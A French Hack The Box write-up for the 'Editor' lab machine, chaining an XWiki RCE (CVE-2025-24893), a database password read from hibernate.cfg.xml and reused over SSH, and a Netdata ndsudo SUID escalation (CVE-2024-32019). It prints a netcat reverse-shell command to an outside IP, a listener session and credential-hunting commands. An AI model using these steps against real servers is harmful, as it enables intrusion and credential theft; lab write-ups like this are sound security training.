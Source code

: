 +++
draft = false
date = '2025-10-07T15:00:00+02:00'
title = "Hack The Box Editor"
description = "Write Up du challenge Editor"
authors = "Wanako"
tags = ["Hack The Box"]
categories = ["Machine", "Hack The Box", "CVE"]
+++

# Writeup - Editor

## Reconnaissance

La machine expose un site XWiki en version 1.10.8, vulnérable à une RCE (CVE-2025-24893).

---

## Initial Foothold - RCE XWiki

### Exploitation

On utilise l'exploit disponible sur GitHub :

**Terminal 1 - Exploitation**
```bash
python CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.115 9001 -e /bin/bash'

[*] Attacking http://editor.htb:8080
[*] Injecting the payload...
[*] Command executed
```

**Terminal 2 - Reverse Shell**
```bash
nc -lvp 9001

Listening on 0.0.0.0 9001
Connection received on editor.htb 52616
whoami
xwiki
```

### Stabilisation du shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Pivot vers l'utilisateur Oliver

### Énumération

On constate la présence d'un utilisateur `oliver` dans `/home`.

### Récupération des credentials

XWiki utilise un fichier de configuration Hibernate contenant les credentials de la base de données :

```bash
find / -name "hibernate.cfg.xml" 2>/dev/null
# /etc/xwiki/hibernate.cfg.xml

cat /etc/xwiki/hibernate.cfg.xml | grep password
# <property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

**Credentials trouvés :** `oliver:theEd1t0rTeam99`

### Connexion SSH

```bash
ssh oliver@editor.htb
# ✅ Connexion réussie
```

---

## Privilege Escalation vers Root

### Énumération des groupes

```bash
id
# uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```

Oliver appartient au groupe **netdata** (service de monitoring système).

### Recherche de binaires SUID

```bash
find / -type f -perm -4000 -user root 2>/dev/null
```

**Résultats intéressants :**
```
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
...
```

### Exploitation de ndsudo (CVE-2024-32019)

Le binaire `ndsudo` est vulnérable à une escalade de privilèges.

**Exploit disponible :** https://github.com/AzureADTrent/CVE-2024-32019-POC

```bash
# Exploitation selon le POC
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo [commande root]
```

**Résultat :** Shell root obtenu ✅

---

## Flags

```bash
cat /home/oliver/user.txt
cat /root/root.txt
```

---

## Résumé de la Kill Chain

1. **RCE XWiki** (CVE-2025-24893) → Shell `xwiki`
2. **Credentials dans hibernate.cfg.xml** → User `oliver`
3. **ndsudo SUID** (CVE-2024-32019) → Root

**GG ! 🎯**
